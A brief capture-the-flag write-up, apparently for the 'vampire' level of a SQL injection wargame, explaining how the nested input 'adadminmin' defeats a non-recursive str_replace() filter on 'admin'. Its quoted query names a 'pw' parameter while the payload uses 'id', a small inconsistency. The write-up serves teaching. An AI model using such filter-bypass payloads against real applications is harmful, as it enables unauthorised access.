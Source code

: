 ```yaml
---
custom_edit_url: null
sidebar_position: 9
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/ac165bb9-b70d-4723-b941-ab315029c976)

We are provided with the SQL query:

```sql
SELECT id FROM prob_vampire WHERE id='{$_GET[pw]}'
```

This level uses the `str_replace()` function to replace `admin` with ` `. 


However this function is not recursive which means when we provide the following URI parameter:

```
?id=adadminmin
```

The application replaces `admin`, and our URI parameter becomes:

```
?id=admin
```

The resultant query then becomes:

```sql
SELECT id FROM prob_vampire WHERE id='admin'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/f8d863b8-07ab-4d01-b24a-93901a8906c5)
